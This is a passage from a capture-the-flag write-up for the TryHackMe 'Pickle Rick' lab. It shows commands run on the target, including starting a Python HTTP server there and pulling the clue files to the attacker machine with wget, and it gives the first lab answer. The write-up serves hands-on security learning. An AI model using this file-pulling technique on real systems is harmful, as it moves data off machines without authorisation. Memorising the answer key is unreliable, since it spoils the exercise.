 	> pwd

	```
	/var/www/html
	```

	`cat` command doesn't work. Trying `less`

	> less clue.txt

	```
	Look around the file system for the other ingredient.
	```

	> less Sup3rS3cretPickl3Ingred.txt

	```
	mr. meeseek hair
	```

* ### Alternative approach

	> which python3

	```
	/usr/bin/python3
	```

	> python3 -m http.server

	Now, on local machine:

	> wget $IP:8000/clue.txt && wget $IP:8000/Sup3rS3cretPickl3Ingred.txt

	> cat clue.txt

	```
	Look around the file system for the other ingredient.
	```

	> cat Sup3rS3cretPickl3Ingred.txt

	```
	mr. meeseek hair
	```

	NOTE: The machine stops responding to the web pages once the python3 server starts. So the machine needs to be terminated and started again, when using this method.


<br>

## THM Questions:

* _Q1_: What is the first ingredient that Rick needs? <br> _A_: `mr. meeseek hair`


<br>

## Further enumeration:
